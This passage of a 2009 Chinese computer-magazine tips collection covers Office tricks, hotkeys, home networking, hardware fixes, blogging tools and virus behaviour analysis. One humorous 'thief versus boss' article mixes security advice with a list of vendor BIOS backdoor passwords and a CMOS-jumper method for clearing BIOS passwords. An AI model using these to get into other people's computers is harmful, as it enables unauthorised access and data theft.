拜读了第10期的《柔情似水，印证我心一亲手教“妮”做水印》一文，不过有一篇几十页的文档，封面和目录不需要水印，后面的内容页需要水印。而文中介绍的方法只能全部加水印，经过摸索，终于实现了只给内容页加上水印，成就啊！

- 第一步：打开文档，单击“页面布局”选项卡，然后单击“水印”按钮，按照正常方法插入水印，此时文档中所有页面都会加上水印。将光标移动到第1页（封面页）的末尾，单击“分隔符”按钮选择“下一页”，此时第一页末尾会插入一个“分节符（下一页）”，使用同样的方法为第二页（目录页）末尾插入一个“分节符”。
- 第二步：在第二页的页眉处双击打开页眉页脚，在“设计”选项卡中可以看到“链接到前一页眉”处于选中状态，单击“链接到前一页眉”则可取消选择，此时页眉下方的“与上一节相同”提示语会消失；同样在第3页的页眉处双击，取消选择“链接到前一页眉”。最后在第1页的页眉处双击，然后选中该页中的水印，按键盘上的删除键即可删除，同样第2页的水印也可以这样删除，而其他页面的水印依然保留着不受影响。我们还可以根据需要再手动给第一、二页加上别的水印。

编辑点评：该文很好的解决了水印应用中的一个常见问题，可以为不同的页面加上不同的水印。

## 虽然你轻轻地来，但是带不走1KB数据

在月黑风高的一个晚上，王牌大贼谍（名称来自电影《王牌大谍谍》）带着自己的秘密工具箱来到了某企业老板的办公室（什么？你问我他是怎么进来的？自己问保安去！），打开了公司老板的电脑，开始了贼谍与电脑的攻防战……

老板就是老板，随意让别人打开电脑看东西可不是一件好习惯，偷走了商业机密是小，电脑里下载的肥皂剧要是让外人看到了，那公司声誉还往哪放啊？

## 攻防战 Round 1

开机碰到密码可让贼谍一惊，这个公司的保密工作做得不错嘛。

### 老板的小诀窍：设置开机密码

按DEL键进入BIOS设置，选择Set Supervisor Password（设置管理员密码）敲入密码两次。开机就会给那些想动电脑的人当头一棒，想进系统先过了这关再说。

### 小提示 如何破解笔记本密码？

可以使用通用密码，一般老型号的本本可以使用，但是新型号只能指望官方客服维修了。

华硕：MAXIMUM
联想：MAXIMUM，6475457，659835，blvjch
Award BIOS：J256，LKUWPETER，wantgirl，Ebbb，Sjxz，oLLy，AWARD?SW，AWARD_SW，J262，HLT，SER，SKY FOX，BIOSTAR，ALFAROME，lkwpeter，589721，awkard，h996，CONCAT，589589
AMI BIOS：AMI，BIOS，PASSWORD，HEWITT RAND，AMI_SW，LKUWPETER，A.M.I

### 王牌大贼谍的工具箱：螺丝刀解决问题

BIOS密码太简单了，打开机箱就能解决问题。

- 第一步：打开机箱找到主板大大的纽扣电池，一般旁边就是一个3针的跳线。
- 第二步：在关机状态下把它拔下来平移一个位置，再平移回去开机即可（注意，更改跳线必须都是在关机状态下）。

### 网络大补贴：索尼通用密码算号器

http://blog.cfan.com.cn/?uid-766064-action-viewspace-itemid-1080553

## 攻防战 Round 2

大贼谍成功地启动了电脑，悠闲地看着电脑Windows Loading（载入）……
哟？Windows也有登录密码？好吧，让我想想看。

### 老板的小诀窍：设置Windows登录密码

- 第一步：打开开始菜单里的控制面板。
- 第二步：点击“用户账户和家庭安全”（Windows XP用户选择“用户”），选择“更改Windows密码”。
- 第三步：点击上方的“为您的账户创建Windows密码”，在跳出的窗口中输入两次密码即可。

### 王牌大贼谍的工具箱：闪盘不仅能拷贝数据

大贼谍的闪盘可不是简简单单地用来拷贝数据的，破解密码全靠它了。

## 攻防战 Round 3

四下无人，王牌大贼谍突然接到GF的短信“这
都几点了？还不回家，又到哪里去鬼混了？”回一个吧，要么回家又要挨骂。这时候系统屏幕开始闪动Windows徽标进入屏幕保护了。

### 老板的小诀窍：暂时离开，屏幕保护也能防盗

- 第一步：右击桌面空白处，选择个性化。
- 第二步：选择屏幕保护，在弹出的窗口中选择一个屏幕保护并设定时间。
- 第三步：勾选中间的“在恢复时显示登录屏幕”。

### 小提示：

在暂时离开电脑时可以打开开始菜单，点击右侧的小锁图标或者直接按Ctrl+L也可达到防止别人查看电脑的目的。

### 王牌大贼谍的工具箱：不攻自破，无需工具

大贼谍哈哈一笑，还好不是在别人暂离时偷窥，既然回到了登录界面，那么密码必然是登录密码，用上面破解的登录密码登录就可以了。

## 攻防战 Round 4

用闪盘拷贝走了数据后，王牌大贼谍美美地睡了一觉。可是第二天……
“咚咚咚”
“谁啊？”
“警察，你被捕了！”

### 老板的小诀窍：被盗不要急，及时抓贼最重要

“可怜的大贼谍，你还不知道吧，在你登录Windows的时候摄像头已经拍下了你的照片。”

## 用好查找和替换，文档处理更轻松

薇薇经常做文秘的工作，日常要处理大量的文档，经过几个月的锻炼，着实进步不小。可是领导时不时还是嫌她文档处理得慢。其中，薇薇还没有掌握好加快文档处理速度的重要秘诀一查找和替换！

查找替换除了能够批量修改文中的错字错句，其实还有更多的妙用，挖掘出这些功能，文档处理当然会事半功倍了。

### 快速输入家庭住址

- 第一步：打开Excel 2007，在输入人事信息时，凡是地址的相同部分都输入#；切换到“开始”标签，单击“查找和选择”按钮出现菜单选择“替换”出现对话框。
- 第二步：在“查找内容”中输入#，在“替换为”中输入本区地址，再单击“全部替换”按钮即可。

小提示：该实例是查找替换的最基本应用，在平时我们文档中有了错字，可通过“查找”功能找到错字，再通过“替换”功能将所有的错字一次性替换为正确的文字。在Office、Wps Office等办公软件中都有“查找和替换”功能，用好这些功能，可以大大加快你的文档处理速度哦。

### 文字格式轻松设置

最近需修改一部台湾的资料，为符合大陆用户阅读习惯并突出重点，必须改变书稿中的某些词语及其字体，并加上着重号。如果一个一个地修改，累死薇薇等死领导，不过用好查找和替换，一切都不难了。

- 第一步：用Word打开书稿文档，切换到“开始”标签，单击“替换”，在“查找内容”中输入要查找的文字，在“替换为”中输入用来替换的文字。单击“更多”按钮可以看到更多的搜索选项。
- 第二步：单击“格式”按钮，选择“字体”出现对话框，在“中文字体”可设置文字字体，然后选择“着重号”下的“.”，确定后返回“查找和替换”对话框，最后单击“全部替换”即可。

小提示：该实例使用了“查找替换”的高级功能，即进行格式的查找替换。在同一篇文档中，如果有相同的文字，但格式不同，通过格式替换可针对不同的格式替换相应的文字，非常实用。

### 字变图，一步搞定

- 第一步：用Word打开资料，切换到“插入”标签，单击“图片”按钮选择公司的Logo，将图片插入到文档中，并调节好其尺寸，选中图片按Ctrl+C复制。
- 第二步：按Ctrl+H打开“查找和替换”窗口，在查找内容中输入“联想”，在替换为中输入“^c”，然后单击“全部替换”按钮，此时可以看到查找的文字都替换为相应的图片了。

小提示：“^c”的意思就是以剪贴板中的内容，替换掉“查找内容”框中的内容，因此“^c”还可替换包括回车符在内的任何可以复制到剪贴板上的可视内容，甚至表格。

### 快速整理网络文档

薇薇常需要将网上的资料下载下来，排版打印出来，可网上的文章都有很多空格和空行，一删除十分麻烦！

- 第一步：将网上的文章复制粘贴到Word中，打开“查找和替换”对话框，单击“特殊格式”选择“段落标记”，“替换为”中不输入任何内容，然后单击“全部替换”可以看到空段会被自动删除。如果没有能删除，可在“查找内容”中输入“^p”，也就是在段落标记前加上一个空格，再单击“全部替换”。
- 第二步：在“查找内容”中按一下空格键，也就是设置查找对象为空格，“替换为”中不输入任何内容，然后单击“全部替换”，此时文档中的空格就会全部删除。

(江苏/周建峰)

## 热键，提高效率的通道

### 如何查看已经启用的热键

当我们运行了一些软件，比如运行抓图软件Hypersnap后，该软件默认的许多热键就会随时等候命令，如何查看哪些组合键已被定义成热键了呢？
用GHotkeys这款软件可以查看（下载地址：http://work.newhua.com/cfan/200803/ghotkey.zip）。
软件运行后，单击GetHotkey按钮，即可在列表中的Key中查看到被定义成热键的组合键。

### 配置自己的所需要的热键

其实，很多热键，在实际操作中很少用到，原因是你所应用的范围比较特别。那么如何根据自己的特别情况设置自己的热键呢？

#### 1.属性法

许多程序安装后，会在桌面或任务栏中建立自己的快捷图标，我们可以在这些图标的“属性”中设置运行该程序的热键。
以QQ为例，右击桌面上的QQ快捷图标，从右键菜单中选择“属性”，鼠标定位于“快捷键”右侧输入框，同时按下Ctrl+Alt+字符或者同时按下Ctrl+Shift+字符，或者直接按下键盘的某个字符，比如“Q”，则输入框中显示“Ctrl+Alt+Q”，此即为运行QQ的快捷键。

#### 2.在虚拟键盘上设置

Qliner Hotkeys这款软件可以让用户直接在键盘的按键上进行设置、调整热键，非常直观方便。下载地址：http://dl.pconline.com.cn/download/53313.html。
软件安装运行后，按住键盘上的Win（徽标快捷键）不松开，过一会儿便弹出一个虚拟键盘，上面的一些按键上标明的程序图标即为快捷键，比如D键上标有Word图标，则按下WIN+D快捷键，即可打开Word，N键上标有记事本图标，表明按下WIN+N可打开记事本。

#### 3.终极热键大师

如果需要更为灵活的热键设置，非“终极热键大师”不可，它不但可以给程序设置热键，还可以给打开文件夹、打开网页设置热键。下载地址：http://edong1.skycn.com/down/Hotkeyer.zip。
软件运行后，在“已存在的热键列表”中，已为用户配置了重启、关闭计算机的热键等，可以单击“删除热键”删除它们。
这里以为打开某个常用的文件夹设置热键为例：选中“添加热键”中的“浏览网址/打开目录”选项，单击右侧的“选择目录”按钮，指定常用文件夹，然后光标定位至“定义热键”后的输入框，按下键盘上的组合键，最后单击“添加热键”即可。如果要为打开某个常用网址添加热键，则在输入框中输入网址，其他步骤相同。

编辑点评：多种方法设置快捷键，不但方便，功能还非常强，如果你的工作或学习，需要设置特别的快捷键，不妨参考这些方法。（文/曹春华）

## Web版式出手，网页打印无忧

在众多的IT杂志中，要数电爱的信息容量最大，每一期新杂志到手的时候，我都会以一种急迫的心情，想尽快把它阅读一遍，我工作中遇到的好多软件使用问题，都先后在CFan上找到了答案，我要说声谢谢！

第8期《节约用纸，网页我只打印想要的》一文，介绍了一种快速打印部分网页内容的方法，虽然能够删除我们不需要的网页内容，节约打印用纸，但却不能修改文字的大小和颜色，对于一些字号较小、又包含多种颜色的网页文字，打印效果常不尽如人意。其实，我们还可以借助Word 2007的Web版式视图，对要打印的网页进行内容删改和段落排版等操作，取得更好的打印效果。

这里仍然以爱好者博客上的技巧文章（http://blog.cfan.com.cn/html/02/11702-114284.html）打印为例，访问该网页，复制地址栏中完整的网页地址，然后打开Word 2007，执行“Office按钮→打开”命令，在“文件名”文本框中右击执行“粘贴”命令，然后单击“打开”按钮，Word就会自动切换到Web版式视图，并以“只读”的形式打开目标网页，我们可以像编辑普通Word文档一样，对网页内容进行必要的编辑和排版操作。

例如，按Ctrl+A全选网页文字，再按快捷键Ctrl+Shift+>，快速地将网页各级标题和正文的字号都在原来的基础上加大一级，最后再将文字的颜色统一设置为黑色，简单两步，就可以大大改善实际的打印效果了。
编辑点评：也可以先复制要打印的网页内容，然后新建一个Word文档，并将其切换至Web版式视图，粘贴网页内容，同样很方便我们排版打印想要的网页内容。（文/江苏 远渡重洋）

## 以退为进，不连续网文表格快速删

由于工作的关系，我经常要下载编辑许多网文资料，看了第3期《办公找网文 图片表格不能少》一文，介绍了一种网文表格的删除方法，可以帮助我们在不使用选择性粘贴命令的情况下，快速删除多余网文表格（包括嵌套表格），非常实用。

但如果网文内容来自多个不同的网页，有些使用布局表格，有些则没有使用，想直接使用该功能，就有点麻烦，因为无法对所有网文执行该命令，按住Ctrl键，依次单击各个表格左上角的全选按钮，选中多个表格，但也同样无法执行该命令。
正所谓“解铃还需系铃人”，这时，可以借助一个临时表格来解决这个问题，按Ctrl+A键全选网文，执行“剪切”命令，然后执行“插入→表格”命令，插入一个1×1的临时表格，将剪贴板中的网文粘贴进去，最后再选中该临时表格，执行“布局→转换为文本”命令，就可以快速删除网文中不连续的布局表格了。

编辑点评：这下可以将网上找的资料都粘贴到一个Word文件里，然后统一处理打印啦。（文/江苏 远渡重洋）

# NEW BEGINNER 新人帮

《电脑爱好者》合订本·正文分册

## 用QQ文件中转站，免费为网盘扩容

第8期《非会员QQ网盘扩容计划》，介绍了一种通过创建群的方法，将免费网盘容量从16MB扩容到32MB。由于工作的关系，我经常要使用QQ网盘，在公司和家之间，来回传输一些较大的文件。32MB的空间常常会捉襟见肘。其实，我们还可以使用QQ文件中转站免费提供的1GB存储空间，来为自己的网盘扩容。

访问QQ邮箱首页 (http://mail.qq.com/)，在不打开QQ的情况下登录QQ邮箱，单击QQ窗口上方的邮箱图标，快速登录QQ邮箱。单击左下方的“文件中转站”按钮，打开文件中转站页面。首次运行时，需要单击“立即安装”链接，根据提示安装支持断点续传的上传控件，以加快文件的上传下载速度。单击“开始上传”按钮，通过文件上传对话框，可以上传不超过1GB的文件。

文件中转站的存储期限一般为7天，在文件到期的前两天，系统会自动发送提醒邮件到你的QQ邮箱。如果我们想长期存储某个文件，只要在文件到期前，单击下方的“续期”按钮，执行文件续期命令，又可以将存储期限再次延长为7天。

要下载使用文件的时候，只需要单击对应文件下方的“下载”链接，就可以很快将该文件下载下来。单击“发送给好友”或“发给QQ群”按钮，还可以向好友发送超大文件的链接地址，通过这些文件链接，就可以和好友临时分享一些较大的影音文件。

### 编辑点评：

QQ 2009 已经将文件中转站按钮整合到了 QQ 面板左侧的“网络硬盘”选项下，很方便我们上传下载文件。

（文/姚文连）

## 共享不愁 家庭网络快速建

家里只有一台电脑，爸爸要炒股，妈妈要看美食、韩剧，我放在桌面上的网站快捷方式又不知道被扔到哪里去了。一家人用一台电脑真麻烦。我要设置姚明的壁纸，爸爸要设置股票的K线图……因此家里就经常会上演电脑抢夺战。在多次战争之后，老爸终于想到要改革了。

### 多用户，你我互不干扰

首先为了解决每个人的使用习惯，最好是每个人的系统设置、桌面图标等互不干扰。为此爸爸在电脑中分别设置了三个不同的账户，每个人使用一个。因为使用的账户名称不同，各自的设置都会被保存并且相互之间不会冲突了。

首先进入“控制面板”，单击“用户账户”，在打开的“用户账户”窗口中单击“创建一个新的账户”，按照提示分别建立三个不同用户名的账户。经过这样设置之后，每次开机时，系统都不再自动登录了，而是出现用户选择界面，这样谁使用电脑就选择哪个账户登录即可。

现在解决了大家使用电脑的纷争，但一台电脑毕竟只能同时一个人使用，特别是在假期，三人用一台电脑的局面更显得紧张。不得已之下爸爸提议再买一台电脑回来，主要是为了解决爸、妈使用电脑的冲突，因为我根本就不在考虑范围之内。电脑买回来之后，两台电脑之间的资源共享又成了新的问题。

### 资源共分享

妈妈下载的韩剧，爸爸在闲暇之余也想看一下，但妈妈不允许爸爸用她的电脑，只准爸爸在自己的电脑上看。这时资源共享就提上了议事日程。由于XP本身就提供了“共享”功能，因此实现资源共享的过程也很简单。

这里说的共享就是指的Windows自带的共享功能，实现方法比较简单，下面简单介绍一下。

首先在“资源管理器”中执行“工具→文件夹选项”命令，在打开的“文件夹选项”对话框中切换到“查看”标签，去除“使用简单文件共享(推荐)”选项的选择，然后单击“确定”按钮使用设置生效。

接下来将需要共享的资源放到某一文件夹下，然后在该文件夹上单击鼠标右键，在弹出的快捷菜单中选择“共享和安全”，在打开的对话框中切换到“共享”标签下，选中“共享此文件夹”项，然后在下方输入一个“共享名”即可。

最后在另一台电脑上，在资源管理器的地址栏中输入“\共享资源的计算机名或IP地址”，按下回车键就可以看到共享资源了，在这里访问就和访问本地资源一样方便。

### 小提示：

右键单击“我的电脑”，在弹出的快捷菜单中选择“属性”，在打开的“系统属性”对话框中切换到“计算机名”标签，在“完整的计算机名称”右侧显示的即为“计算机名称”（不包括最后的“.”号）。

### 轻松访问共享资源

有些朋友总觉得使用电脑名称或者IP地址的方法访问有点麻烦，其实还有个方法可以更轻松地访问共享资源，但也有一个前提条件，那就是需要共享资源的两台电脑必须处在同一个“工作组”中。

右键单击“我的电脑”，在弹出的快捷菜单中选择“属性”，在打开的“系统属性”对话框中切换到“计算机名”标签，查看“工作组”右侧的名称是否一样。如果两台电脑的不一样，则需要修改其中的一台与另一台一致。单击“更改”按钮，在打开的“计算机名称更改”对话框中重新输入“工作组”名称，然后单击“确定”按钮保存设置，最后重新启动使设置生效。

以后需要访问共享资源时只需要打开“网上邻居”，然后单击左侧的“查看工作组计算机”，然后在右侧窗格中就可以看到计算机列表了，双击即可查看共享资源，这样就省去了需要知道对方计算机名称或IP地址的麻烦了。

还在为几个人使用一台电脑而不能个性化设置而苦恼么？或者是家里的几台电脑都是孤立的数据中心吗？多用户、共分享，快点建立你自己的家庭网络吧。

（越野苍狼）

## 键鼠生病，急救有方

某日晚，在小菜的家一小菜：啊！Shift键坏了，这可叫我怎么玩跑跑啊，都这么晚了，到哪里去买键盘。给虾哥打个电话吧，上帝保佑它有办法。

“铃铃铃，铃铃铃”大虾家的电话响起来了。

大虾：小菜，又有啥事？怎么总是半夜出状况，再这样要收费了啊。

小菜：键盘坏了一个键，没法玩游戏了，这可怎么办啊？只能换键盘吗？顺便问一句，我的鼠标开始单击变双击了，这个倒不急还能凑合用，有办法治吗？

大虾：还有希望，你别急！

### 键盘键盘，按键才是它的命根子

看到小菜这种情况，不是长期敲击一个键，就是没好好保养键盘，键盘容易坏太正常了，这一年他已经换了3个键盘了。

### 从习惯入手，谁才是键盘的杀手

杀手一号——香烟：大量的烟灰掉落到键盘键帽的里面，就会对手感造成很大的影响。另外烟草中的焦油对键盘内部的薄膜也有强烈的腐蚀作用，长期处于腐蚀环境中，也会使键盘手感下降，并且对薄膜造成不可恢复的伤害。

杀手二号——零食：食物残渣的颗粒很大，使按键卡住的几率更大，另外还要格外注意不要将饮料撒到键盘表面上。如果将清水撒到键盘上，则应该马上关闭电脑电源，然后将键盘拔下，倒置键盘，用力将水倒出，将键盘晾干。

杀手三号——敲打：键盘成了电脑其他部件出现故障的“替罪羊”，恼怒时大多数气急败坏的用户会冲着键盘撒气；另外，我们在使用键盘时，每个按键的使用频率并不一样，甚至相差很多。例如“A、S、D、F”等按键的使用频率一定会比“F8、F9、F10”等高出很多。

### 按键罢工了，亡羊补牢还不晚

既然上面说到了很多按键的使用频率比较低，那么我们就应该能够想到，替换法是最简单的。慢着，先别急着拆键盘，我们说的替换是软替换。

-   第一步：下载并安装RemapKey软件（下载地址：http://work.newhua.com/cfan/200916/remapkey.rar）。
-   第二步：打开软件，在上方的键盘中找到坏掉的按键，比如小菜坏掉的Shift键，按住鼠标左键不放，拖动至下方键盘上的左Win键上（这个键使用较少，并且很容易误操作）。
-   第三步：点击上方工具栏内第一个按钮（保存并退出按钮），重新启动电脑，按键就更换过来了。

### 小提示：

替换Shift、Alt、Ctrl等组合键时注意要用PassMark KeyboardTest工具（下载地址：http://www.onlinedown.net/soft/6347.htm）来检测按键冲突的问题。

### 微动，鼠标的按键的核心

鼠标使用时间一长，单击变双击的情况就开始慢慢出现。是鼠标质量的问题吗？也不能这么说，一般出现此种情况的都是名牌大厂产品，比如经典的微软IO 1.1。这与使用环境、使用频率等等都有关系。

微动开关顾名思义就是很小的动作就能触动的开关，例如点击鼠标就是很小的动作。鼠标的按键全靠这些小小的微动开关来判断我们是不是点击，点了几下。

一般出现双击，是因为微动开关的触点氧化了，拆开擦拭也好，更换微动也好，成本都非常低，但对小菜来说稍稍有些难。

### 速度区别，解决双击困扰

既然是触点氧化了，那么它双击的频率也就是速度肯定非常高，和我们平常自己点击的速度差距很大。凭借这个区别，使用软件分辨速度差，就能解决双击究竟是自己点的，还是微动出问题了。

-   第一步：下载并安装DoubleClickFix工具（下载地址：http://work.newhua.com/cfan/200916/DCF.rar）
-   第二步：打开DoubleClickFix，在左侧的挂接类型中选择需要修复的鼠标按键。
-   第三步：设置两次点击时间间隔，也就是上面所说的速度差，根据你的鼠标双击速度，填写150~200即可，填写完毕后点击右侧的设置按钮。
-   第四步:按住左键不放将DoubleClickFix拖拽至开始菜单→所有程序→启动中，这样每次开机它就会自动运行了。

大虾：小菜，你磨磨蹭蹭的搞定没？是不是这下子濒死的键鼠就复活了？你已经欠我很多顿饭了，抓紧解决了吧。

小菜：我去玩游戏了，哈哈哈，今天天气真不错！

（小静）

28 电脑爱好者合订本·2009

## 躺在床上看大片，和不爽说byebye

2009年8月10日，天气多云（闷热）
吃过饭后完全没有心思做别的事情，只想躺在床上舒服地看部片子。
怎奈自己是一个工薪阶层，液晶电视、投影机和我无缘。不过24英寸显示器要求也不能太高。

种种问题扑面而来

只是一个姿势、距离的不同，却与正常使用大相径庭这是我从未想到的，疲劳感顿消，先来找出症结所在吧。

### 为何角度不同，屏幕变得昏暗、变色

原因之一：时下一些TN面板的LCD的可视角度标称值都达到了170度/160度（垂直/水平），按理来说应该足够使用，但其实各个厂商对可视角度的测量方法并不同，在不同测量方式下，可视角度的标称值也不同，另外，厂商对可视的标准定义也不同，一些厂商是允许偏色达到60%，依然算在可视范围之内。
原因之二：仰视角度向来是普通液晶显示器的弊病之一，标称为160度垂直角度的显示器多数是90度/70度（俯视/仰视）的搭配。
原因之三：RMVB等等影片的压制问题，由于低码率带来的色彩、细节缺失，反映在本来对色彩表现能力比较差的普通液晶上，更是雪上加霜。

### 远距离观看，字幕成问题

下载的很多片子，坐在电脑前观看还不是问题，但是最让人头痛的是距离稍微拉远，蚂蚁一样的小字看起来就越发的困难，最让人不解的是有些字幕可以放大，而有些又不可以。
比较了电脑中的片子，发现了字幕的差别，把字幕作为影片图像压进去的电影，往往字幕大小都固定了，常见于RMVB、MP4和部分MKV中，但是很多在影片文件之外有字幕的电影，字幕就可以调节。

2009年8月12日，天气晴（好大的太阳）

纠结了两天之后，决定解决问题，为满足我的懒人生活努力……

### 软硬结合，驱走困扰

前天遇到的问题，很多都是“硬”伤，单单靠软件无法解决，没钱升级设备，看来只能另辟蹊径了。

### 可视角度，烟盒+字典解决问题

大多数液晶显示器的调整角度都是倾向于俯视，而仰视的调节很小很小，这个时候我们只能人工让它低下头。

-   第一步：将显示器调节至最大俯角
-   第二步：将一个烟盒（或其他物品）垫在显示器底座后侧下方。
-   第三步：使用字典（或几本厚书）压在底座后侧上方，并摇动显示器测试安稳程度。
-   第四步：调节亮度至最大。

### 真实的并不一定是养眼的

相比电视机的效果，显示器一般都是追求色彩的真实还原，但其实这样往往都让电影播放变得暗淡，殊不知艳丽的效果才是养眼的效果，以前的做法是调节数字振动选项，但这样不仅让电影变得艳丽，连桌面也会跟着变色。为此，我们应该调节视频颜色设置。

-   第一步：右键点击桌面选择NVIDIA控制面板。
-   第二步：在NVIDIA控制面板窗口的左侧选择调整视频颜色设置。
-   第三步：选择右侧的饱和度，一般调整至75%就可以看出明显效果。

### 看片，大字幕才舒服

对于字幕作为影片图像压进去的电影，为了看清字幕，我们应该加载外部字幕，这样字幕的大小才能调节。

-   第一步：下载与影片对应的字幕，打开浏览器输入http://www.shooter.cn，在上面搜索影片的名字并下载（注意电影的版本和分段哦）。
-   第二步：更改字幕和影片的文件名，使它们的名字变成一样的，并把它们放在同一个文件夹下。
-   第三步：打开需要播放的影片（文章中使用PotPlayer播放器，下载地址：http://www.onlinedown.net/soft/42170.htm，其他播放器也大同小异），这样我们就能看到新加载的字幕了。
-   第四步：右键点击播放窗口选择字幕选项→字体+（或直接使用快捷键Alt键+PageUp键），并重复操作直到满意为止。

看电影啦，可以躺在床上看电影啦，差点忘记打开床头灯或台灯，关灯看电影对眼睛可不是一件好事情。

(小静)

## 写博客再也不会“一停没”

很多朋友都喜欢在博客上写些东西，但经常遇到“一停没”事件——停电、断电、死机等事故导致辛苦写的博客内容全部丢失。其实，平时要是掌握一些必要的技巧就可以轻松地解决“一停没”事件的发生，辛苦半天的成果再也不会瞬间灰飞烟灭了。

### 史上最简单离线写博客方案——记事本、Word

“一停没”事件的发生主要是在写博客时直接通过博客网页来写的，由于网页写博客没有保存机制，一旦停电、断电或是死机等突发事故发生时就会导致之前撰写的内容泡汤。因此，撰写博客时不选用网页而改用记事本、Word这样的工具就可以有效避免“一停没”事件的发生了。

其中，使用记事本或Word写博客很简单，不用多说大家都会，只要在记事本或Word中写好内容，然后直接将其拷贝到博客中即可，只是对于图片、格式等需要在博客中重新编辑、设定一下。

### 小提示：

Word 2007内嵌了博客撰写功能，但是支持的博客类型较少，对于国内很多博客支持得不好，在添加账户时总是不成功，不推荐大家选用。

### 撰写国内博客，就用“博客精灵”

如果经常写博客，最方便的还是找一款专业的写博客工具，例如“博客精灵”就是这样一款写博客特别方便的小工具。

-   第一步：从http://blog.gogo36.cn/down/将其下载并安装到系统中。
-   第二步：运行软件后单击“我的账号”按钮，在打开的窗口中一一将自己的博客账号添加进来。
-   第三步：自己的博客账号全部添加到列表中后，接下来就可以开始写博客了：单击“写博客”按钮打开博客撰写界面。

填写好标题、内容后，如果要立即发送，直接选择博客，单击“直接发送”按钮即可将写好的博客发布到博客网站中。而若当时网络不通或是博文还没有撰写完毕，可以通过单击“保存为草稿”按钮将其暂时保存起来，下次还可以直接继续撰写。

### 撰写国外博客，Windows Live Writer比较牛

现在博客网站有很多，可能有些朋友还在国外博客网站开通了博客，例如最著名的MSN Spaces，而博客精灵并不支持国外博客网站。而微软推出的Windows Live Writer就是一款不错的国外博客撰写工具。

-   第一步：从http://download.live.com/writer下载安装。
-   第二步：第一次运行时需要注册博客账户，例如我们就以MSN Spaces为例，单击菜单“工具→账户”，在打开的窗口中单击“添加”按钮，在打开的向导中选择“Windows Live Spaces”项。
接下来在打开的向导中直接输入Windows Live ID及密码，系统会自动检测空间信息并完成账户添加。

上面的准备工作后，接下来就可开始写博客了。

在写博客的同时还可以通过菜单栏中提供的菜单插入表格、图片、地图等对象。如果需要立即发布，则直接单击“发布”按钮即可将博文发布到空间中，而若未编辑完，单击“保存草稿”暂且保存起来，之后还可以继续编辑。

### 小提示：

其实Live Writer的功能很强大，支持各种博客，但需要用户手工设置博客类型，它并不像博客精灵那样直接提供百度空间、网易博客这样可以直接设置账户，而需要用户知道博客的接口类型，但对于初学者朋友来说比较难，所以建议国内博客用户直接选用博客精灵，而在国外博客开博的用户选用Live Writer。

(dream)

## 以一顶二 手杀更轻松

看了2009年第12期的《双剑合璧，手动杀毒更彻底》，文中用了Filemon和Regshot这2款软件来在虚拟机中监视病毒行为，其实大可不必。我推荐Procmon（下载地址：http://technet.microsoft.com/en-us/sysinternals/bb896645.aspx）。这款软件说简单点就是文中提到的那两款工具的综合！

简单说下Procmon这款工具的用法，打开Procmon使其处于运行状态，在虚拟机中将病毒文件运行起来，打开Procmon的主界面，你会发现有很多的进程运行记录，没关系，现在拖动右侧滑块，在Procmon的记录中找到病毒的文件名，点击鼠标右键，选择include readfile（包含文件头），现在Procmon的界面中就只有你选择病毒文件的活动轨迹了，点击软件工具栏右侧的“显示注册表活动”、“显示文件系统活动”可以分别查看选定的病毒程序对注册表的操作，和对系统文件的操作。右键记录，可以跳转到注册表、文件，还可以查看进程属性等！

另外没有虚拟机的朋友也不用沮丧，只要你能上网，没虚拟机一样能看清病毒动作，这里就需要介绍一个网站了，http://www.threatexpert.com/是一个在线沙盘，打开网站点击submit sample（提交样本）然后通过浏览按钮找到自己机器中的病毒文件，接着填上自己的邮箱地址并勾选下方agree to be bound by the Terms and Conditions（我同意受这些条款和条件的约束），最后点击submit（提交）按钮，过一会儿，网站分析完，就会把分析结论发到你的邮箱，通过浏览分析报告你就能很轻易地看出病毒文件在你电脑中做了些什么，写入了哪些文件，注册表中建立了哪些键值！是不是很方便啊（小编：嗯，是够方便）！

### 小提示：

Threatexpert网站发来的文件分析报告最好使用Gmail、Yahoo等国外邮箱接收，能第一时间收到哦！

小编有话说：就这么一篇短短的小文，祁兄弟前前后后发了三次，每次的版本还不一样，分第一版、重写版和正式版，整得和Windows 7一样神秘，希望大家看到这文章时我不会收到SP1版……

(甘肃/祁正斌)

## 为什么他上网浏览那么快？

不知你注意没有：上网浏览时间长了，很多时间都花在一些重复操作上：比如输入填表信息、频繁输入数据、注册各类网站，但是为什么身边有些人却看不到他们输入这些繁琐的信息？他们是从不输入？还是有什么好的方法吗？

### 1. 隐私浏览，网上冲浪不留痕

如果是使用公用电脑的话，记录表单信息显然是不好的，还有我们访问过的历史记录等，有时并不希望别人知道我们访问过的网页等相关信息，这时可以使用“隐私浏览”来解决这一问题。

同样在IE8中，执行“安全→InPrivate浏览”命令，这时IE会开启一个新的隐私浏览窗口，在该窗口中所有的浏览信息都不会记录。也就是说，在关闭该窗口后，别人再使用这台电脑时，无法知道你所进行的网络活动。

小提示：

-   ★如果在使用时忘记了使用“隐私浏览”功能，可执行“安全→删除浏览的历史记录”命令，在打开的对话框中，勾选所有的项目，最后单击“删除”按钮也可以起到类似于“隐私浏览”的效果。

### 2. 坐在“马桶”上注册论坛

论坛登录相对来说比较简单，如果是注册论坛的话，所要填写的信息就非常多了。虽然论坛注册不是每天都会做的事，但每次注册时填写一堆信息也非常烦人。Maxthon(傲游)浏览器是一款非常简单易用并且功能非常强大的IE内核浏览器，一些爱好者们喜欢将其称为“马桶”，使用其附带的“智能填表”功能可以很好地解决论坛注册一类的问题。

### 3. 软件下载，浏览器也能行

软件下载是常有的事，专用下载软件也非常多，但现在的下载软件一个一个都成了“全能王”，随之而来的也就是臃肿不堪，广告也是满天飞。如果没有特别需要，只是日常的一些简单下载，还是把它交给浏览器吧。

### 4. 全网浏览要加速

因为网络类型的不同，特别是浏览一些不同网络类型的网站时速度非常慢，“搜狗”浏览器的“全网加速”功能，不论你使用的是什么类型的网络（特别针对网通、电信和教育网），在浏览网页时，都可以使用其内置的加速功能。

(李云峰)

## 打造最顺手的文档编辑环境

平时工作时，我们少不了要进行文档编辑。现在，Word 2007早已成为标配，但很多从Word 2003过渡来的用户因这两个版本之间的变化太大而感觉成了门外汉。原本用了多年的一款软件，只是升了次级，按理论说应该更好用才对，出现了这种怪异现象后，如何让自己快速适应呢？

### 摸清 Word 2003 与 Word 2007 功能一对一的关系

